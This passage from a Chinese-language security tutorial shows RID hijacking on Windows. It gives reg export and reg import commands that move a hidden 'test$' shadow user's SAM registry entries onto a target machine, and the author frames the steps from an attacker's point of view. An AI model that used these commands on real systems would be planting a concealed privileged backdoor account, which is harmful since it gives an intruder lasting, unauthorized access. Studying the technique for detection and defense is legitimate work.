 ![RID 劫持 - 验证劫持结果.png](assets/1708583418-bd2523062f73d7fca50d9ac48e5af767.png)

替换完成将用户导出，在目标机器上导入即可。

```bash
PS C:\Users\123> reg export HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EC Desktop/000003EC.reg
操作成功完成。

PS C:\Users\123> reg export HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$ Desktop/test$.reg
操作成功完成。
```

站在攻击者视角来看，真正利用时肯定不是在目标机器上一顿创建账户再劫持 RID，而是根据目标系统类型，在本地测试机上创建影子用户，做好 RID 劫持，最后在目标机器导入这两个注册表。这里再提醒下，导入一定得有权限编辑，就像前面说的默认情况只有 SYSTEM 有权限编辑 SAM 注册表。

```bash
PS C:\Users\123> reg import Desktop/000003EC.reg
操作成功完成。
PS C:\Users\123> reg import Desktop/test$.reg
操作成功完成。
```
